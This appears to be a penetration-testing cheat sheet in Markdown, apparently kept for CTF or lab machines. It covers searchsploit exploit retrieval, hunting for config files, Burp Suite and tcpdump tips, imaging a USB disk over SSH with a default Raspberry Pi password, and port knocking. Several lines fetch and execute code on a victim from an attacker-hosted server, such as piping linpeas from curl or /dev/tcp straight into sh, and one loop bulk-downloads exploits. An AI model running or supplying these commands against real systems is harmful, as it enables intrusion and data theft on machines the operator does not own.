 ```
searchsploit \<name\>
searchsploit \<name\> -w -t  | grep http | cut -f 2 -d "|"
searchsploit -x exploits/php/webapps/47691.sh
for e in \$(searchsploit afd windows -w -t | grep http | cut -f 2 -d "|");
do exp_name=\$(echo \$e | cut -d "/" -f 5) && url=$(echo $e | sed 's/exploits/raw/') &&
wget -q --no-check-certificate $url -O $exp_name; done
```

Database/Website search clues:
```
find / -name database_settings.inc.php 2>/dev/null
find config/config.inc.php
cat /etc/apache2/sites-enabled/internal.conf 
```
## Linpeas/pspy64
linpeas: scan linux and exploit
pspy64: check hidden cron jobs 
```
python -m http.server 5050/80
curl \<kali linux ip address\>:5050/80/linpeas.sh | sh
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
wget http://attackerip/file
curl http://attackerip/file > file
```
## Burp Suite
Proxy, Intercept is On<br/>
Send to intruder for automation<br/>
Send to Repeater<br/>
Make sure post/get?<br/>
-x/--proxy to localhost:8000 for intercept? (default port burp is 8080)<br/>
<br/>
TCPDUMP<br/>
icmp listener<br/>
tcpdump -ni tun0 icmp<br/>
tcpdump -xvi tun0 -c 10<br/>
<br/>

## USB
grab a copy of the USB disk:<br/>
```
sshpass -p raspberry ssh pi@10.10.10.48 "sudo dd if=/dev/sdb | gzip -1 -" | dd of=usb.gz
```
read all of /dev/sdb and print it to STDOUT<br/>
compress the file read from STDIN (-) and print the result to STDOUT,write that output to usb.gz<br/>
extundelete usb --restore-all<br/>
<br/>
## Port Knocking
TCP<br/>
knock -v 192.168.0.116 4 27391 159<br/>
<br/>
UDP<br/>
knock -v 192.168.0.116 4 27391 159 -u<br/>
<br/>
TCP & UDP<br/>
knock -v 192.168.1.111 159:udp 27391:tcp 4:udp<br/>
<br/>
## Brute Force
```
```
